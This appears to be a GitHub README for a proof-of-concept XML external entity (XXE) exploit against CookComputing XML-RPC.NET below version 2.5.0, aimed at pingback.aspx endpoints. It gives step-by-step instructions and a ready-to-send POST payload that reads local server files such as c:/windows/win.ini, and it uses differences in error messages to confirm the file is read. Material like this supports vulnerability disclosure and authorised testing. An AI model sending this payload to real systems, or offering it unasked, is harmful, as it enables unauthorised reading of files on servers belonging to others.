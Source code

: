 # xmlrpc.net-poc
Proof of Concept (PoC) for CookComputing XML-RPC.NET XXE <2.5.0

1. Identify a vulnerable pingback.aspx endpoint. "CookComputing" tends to be a strong signal.

![xml-rpc-1](https://user-images.githubusercontent.com/3679232/207168120-9465cd3d-2f3d-4ae0-b308-090de2b2501f.png)

2. Leverage the following XXE POST payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM  
"file://c:/windows/win.ini">]><foo>&xxe;</foo> 
```

3. Request a non-existent file on the remote server (e.g. "winFAKE.ini")

![xml-rpc-2](https://user-images.githubusercontent.com/3679232/207168416-9c801f2f-27ca-47c4-a5df-a4f66af98a58.png)

4. Request an existent file on the remote server (e.g. "win.ini"). Note the error message is different when requesting access to an existing file. This validates our XXE is working as intended.

![xml-rpc-3](https://user-images.githubusercontent.com/3679232/207167024-7338126f-6736-4f14-9a64-b6a0ecc7417e.png)
